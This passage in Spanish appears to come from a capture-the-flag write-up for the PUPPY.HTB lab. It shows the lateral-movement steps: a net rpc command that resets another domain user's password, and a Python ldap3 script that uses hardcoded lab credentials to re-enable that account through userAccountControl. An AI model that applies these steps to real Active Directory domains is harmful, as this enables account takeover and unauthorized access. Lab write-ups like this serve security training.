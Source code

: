 
### **Movimiento Lateral**

Con el siguiente comando cambiamos la contraseña, pero esto no hace que el usuario sea activado, asi que con el siguiente script en python ejecutado después de cambiar la contraseña hace que el usuario se active.

```bash
net rpc password "TargetUser" "newP@ssword2022" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```

```python
from ldap3 import Server, Connection, ALL, NTLM, MODIFY_REPLACE

# Datos de conexión
domain = 'PUPPY.HTB'
username = 'ant.edwards'  # usuario que tiene permisos
password = 'Antman2025!'  # contraseña del usuario
dc_ip = '10.10.11.70'     # IP del Domain Controller

target_user = 'adam.silver'  # usuario a activar

# El valor 512 es userAccountControl para cuenta habilitada y normal
USER_ACCOUNT_CONTROL_ENABLE = 512

# Formatear usuario con dominio para NTLM
user = f'{domain}\\{username}'

# DN base para búsqueda, adaptalo si tu dominio tiene otra estructura
base_dn = 'DC=puppy,DC=htb'

# Crear servidor y conexión
server = Server(dc_ip, get_info=ALL)
conn = Connection(server, user=user, password=password, authentication=NTLM, auto_bind=True)

# Buscar DN del usuario objetivo
conn.search(base_dn, f'(sAMAccountName={target_user})', attributes=['distinguishedName'])
if len(conn.entries) == 0:
    print(f'Usuario {target_user} no encontrado.')
    exit()

user_dn = conn.entries[0].distinguishedName.value
print(f'Usuario encontrado: {user_dn}')

# Modificar userAccountControl para activar la cuenta
conn.modify(user_dn, {'userAccountControl': [(MODIFY_REPLACE, [USER_ACCOUNT_CONTROL_ENABLE])]})

if conn.result['result'] == 0:
    print(f'Usuario {target_user} activado correctamente.')
else:
    print(f'Error al activar usuario: {conn.result}')
```
